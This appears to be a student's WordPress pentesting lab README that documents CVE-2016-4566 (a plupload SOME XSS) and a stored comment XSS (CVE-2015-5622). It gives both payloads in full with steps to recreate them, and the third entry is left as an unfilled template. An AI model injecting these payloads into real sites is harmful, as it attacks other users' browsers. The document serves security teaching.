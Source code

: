 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
			<button onclick="fire()">Click</button>
			<script>
			function fire() {
			open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
			setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
					}
			</script>	
			
	3. After this comment posts sucessfully, any user that comes across the post will see a clickable button within the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
	4. In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org](https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.6
  - [ ] GIF Walkthrough: 
		<img src="AuthStoredXSS.gif" alt="Authenticated Stored XSS Walkthrough">
  - [ ] Steps to recreate: 
	
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
			<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//'Hello World</a>	
			
	3. After this comment posts sucessfully, any user that comes to the page and mouses over the area will see an alert box demonstrating the xss attack. The alert box will keep popping up everytime the area is hover overed with the mouse cursor. 
  
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/0f027d7d-674b-4a63-9603-25ea68069c1d)
	- [Link 2: cve.mitre - 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
	- [Link 3: cve.mitre - 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623)
	- [Link 4: wordpress](https://wordpress.org/news/2015/07/wordpress-4-2-3/)
	- [Link 5: twitter](https://twitter.com/klikkioy/status/624264122570526720)
	- [Link 6: klikki](https://klikki.fi/adv/wordpress3.html)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali](https://github.com/0xrutvij/wpVSkali)

GIFs created with [ScreenToGif](https://www.screentogif.com).

## Notes

- Other notes:

## License

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
